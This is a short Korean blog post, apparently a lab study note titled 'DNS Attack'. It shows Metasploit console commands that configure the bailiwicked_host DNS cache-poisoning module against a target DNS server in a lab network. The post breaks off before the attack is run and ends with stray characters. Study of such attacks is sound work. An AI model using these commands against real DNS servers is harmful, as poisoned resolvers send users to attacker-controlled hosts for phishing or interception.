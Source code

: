 ```yaml
---
title:  "DNS Attack" 

categories:
  - DNS
tags:
  - [DNS]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DNS attack

- 구성도

![제목 없음](../../assets/img/제목 없음-1664867752525-1.png)

- 공격

  - kail

    > metasploit 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# msfconsole
    ```

    ![화면 캡처 2022-10-04 161129](../../assets/img/화면 캡처 2022-10-04 161129.png)

    ```
    msf6 > use auxiliary/spoof/dns/bailiwicked_host
    ```

    ![화면 캡처 2022-10-04 162456](../../assets/img/화면 캡처 2022-10-04 162456.png)

    > 설정하기

    A 레코드 문자열

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set hostname www.kh00.kh
    hostname => www.kh00.kh
    ```

    A레코드 IP 주소

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set NEWADDR 200.200.200.254
    NEWADDR => 200.200.200.254
    ```

    공격대상 DNS

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set RHOST 172.16.0.105 (공격대상 DNS)
    RHOST => 172.16.0.105
    ```

    root hint로 설정

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set srcport 53 
    srcport => 53
    ```

    ![화면 캡처 2022-10-04 161524](../../assets/img/화면 캡처 2022-10-04 161524.png)

    ㄹㄹㅇㅁㄴ

    

    

